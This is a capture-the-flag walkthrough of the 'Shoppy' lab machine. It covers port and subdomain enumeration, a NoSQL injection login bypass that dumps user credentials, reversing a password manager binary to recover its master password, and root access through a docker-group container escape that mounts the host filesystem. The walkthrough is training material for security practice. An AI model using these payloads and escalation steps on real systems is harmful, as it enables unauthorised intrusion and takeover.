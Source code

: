 # Shoppy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 14:12 EDT
Nmap scan report for 10.129.227.233
Host is up (0.0063s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```

We have to add `shoppy.htb` to our `/etc/hosts` file.&#x20;

### HTTP

Port 80 reveals a count down to the release of a website.

<figure><img src="../../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>

Doing a `gobuster` scan reveals a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://shoppy.htb -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 14:14:56 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/js                   (Status: 301) [Size: 171] [--> /js/]
```

There's a login page.&#x20;

<figure><img src="../../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

I tested SQL Injection, but it didn't seem to work. We can still fuzz subdomains using `wfuzz`, and I did find one:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.shoppy.htb' --hw=11 -u http://shoppy.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

### Mattermost

The sub-domain brought me to another login page.

<figure><img src="../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

Directory scanning and searching for public exploits returned nothing useful, so let's come back to this later.&#x20;

### NoSQL Injection

On the main `shoppy.htb` website, I tried NoSQL Injection using both regular HTTP parameters and JSON. I was able to bypass it using this:

```
username=admin'||'1=1&password=pass
```

<figure><img src="../../../.gitbook/assets/image (602).png" alt=""><figcaption></figcaption></figure>

With this, we can login to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

There was a Search for Users function, and since this application is already vulnerable to NoSQL Injection, we can use a similar payload to see what we get:

```
'||'1=1
```

Then we can download the export to see some credentials:

<figure><img src="../../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>

The hash for `josh` cracks.

<figure><img src="../../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

Using that, we can login to Mattermost and see that there are credentials on the screen!

<figure><img src="../../../.gitbook/assets/image (604) (1).png" alt=""><figcaption></figcaption></figure>

We can use this to `ssh` in as the user.

<figure><img src="../../../.gitbook/assets/image (608) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Manager RE

As this user, we can run a command using `sudo` as `deploy`.

```
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

When run, it prompts us for a password, and I tried to reuse both of the passwords we found earlier but it doesn't work.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: remembermethisway
Access denied! This incident will be reported !
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

We can transfer this back to my machine and decompile it with `ghidra`. When opened, we can see the master password it is compared to.

<figure><img src="../../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>

We can use this to get the real password:

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

We can then `su` to `deploy`.&#x20;

### Docker Group

As this new user, we are part of the `docker` group.

```
deploy@shoppy:/tmp$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

We can use this to create a new container that has access to the filesystem of the machine, and make ourselves `root` of the container. This effectively gives us `root` access over the files of the main machine too.&#x20;

```
deploy@shoppy:/tmp$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   9 months ago   5.53MB
deploy@shoppy:/tmp$ docker run --rm -it -v /:/mnt alpine /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

With this, we can go to `/mnt/root/root.txt` to read the root flag. We can also drop our public SSH key into the `authorized_keys` file or make `/bin/bash` an SUID binary.&#x20;

<figure><img src="../../../.gitbook/assets/image (567).png" alt=""><figcaption></figcaption></figure>
